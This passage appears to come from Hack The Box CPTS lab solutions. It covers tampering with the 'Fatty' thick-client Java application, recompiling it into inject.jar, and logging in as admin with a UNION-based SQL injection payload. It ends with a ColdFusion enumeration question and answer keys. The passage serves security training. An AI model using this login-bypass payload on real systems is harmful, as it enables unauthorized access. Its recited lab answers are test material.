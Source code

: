 ![[HTB Solutions/CPTS/z. images/a6b79df8f350bc45849f4cd2ca7e8c69_MD5.jpg]]

Students need to recompile the java class files, and then create a new JAR:

Code: powershell

```powershell
javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
cd .\raw\
jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

```
PS C:\Users\cybervaca\Desktop> javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
PS C:\Users\cybervaca\Desktop> mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
PS C:\Users\cybervaca\Desktop> cd .\raw\
PS C:\Users\cybervaca\Desktop\raw> jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

Finally, students need to run the newly compiled `inject.jar` and bypass the login with a SQL injection payload (using `abc` as the password):

Code: sql

```sql
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```

![[HTB Solutions/CPTS/z. images/0253ae7b60634bad4577ab5b32ed1b0b_MD5.jpg]]

Having successfully bypassed the login as a privileged user, students need to finally check the IP address of the `eth0` interface, finding it to be `172.28.0.3`:

![[HTB Solutions/CPTS/z. images/bd6ee74d20d09812e9f2f39b74f2d429_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/c15af44d21b092c1ddd8570ee3c995e0_MD5.jpg]]

Answer: `172.28.0.3`

# ColdFusion - Discovery & Enumeration

## Question 1

### "What ColdFusion protocol runs on port 5500"

From the section's reading, students know that the `Server Monitor` protocol runs on port 5500:

![[HTB Solutions/CPTS/z. images/cc047b6098d3df8e0b3681724384b188_MD5.jpg]]

Answer: `Server Monitor`
